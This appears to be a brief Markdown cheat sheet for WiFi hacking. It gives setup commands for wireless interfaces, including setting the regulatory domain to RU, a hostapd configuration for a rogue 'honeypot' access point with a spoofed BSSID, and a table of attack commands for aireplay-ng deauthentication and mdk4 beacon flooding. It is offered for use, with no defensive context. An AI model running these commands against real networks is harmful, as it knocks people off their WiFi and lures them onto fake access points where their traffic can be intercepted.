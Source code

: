 # W! hack Cheetsheat
<br />

## Set Up environment
<br />

|Purpose|Command|
|----|----|
|lsusb|List all usb devices attached to machine|
|ethtool -i {interface} | Get detailed information about interface|
|iwconfig | View all WiFi interfaces on system |
|iw phy| View information about an interfaces and its capabilities|
|iw reg get|Check the regulatory domain|
|iw reg set {region}|Set reg domain to RU |
|iw dev {interface} set channel {number}|Setting channel |
|iwconfig {interface} essid {ssid} | Connect to specific SSID|

<br />
<br />

<h2>
<b>Configure hostapd service to deploy Honey Pot</b></h2>


```
## To configure hostapd for WiFi Honeypot firstly we need to install its

    sudo apt install hostapd

## Therefore we need to create configuration file

    touch /etc/hostapd/hostapd.conf

## hostapd.conf content is ...

interface={interface}
driver=nl80211
ssid={ssid}
bssid={mac_addr}
channel={channel}

# After that just start hostapd service

    systemctl start hostapd.service
```

<br />
<br />
<br />

## Attacks

|Type of attack|Command|
|---------------|-------------|
|Deathentication Attack|aireplay-ng -0 {count} -a {bssid} {interface} -c {sta_mac}|
|WiFi HoneyPot|hostapd {config_file}|
|Beacon flood|mdk4 {interface} b|


<br />
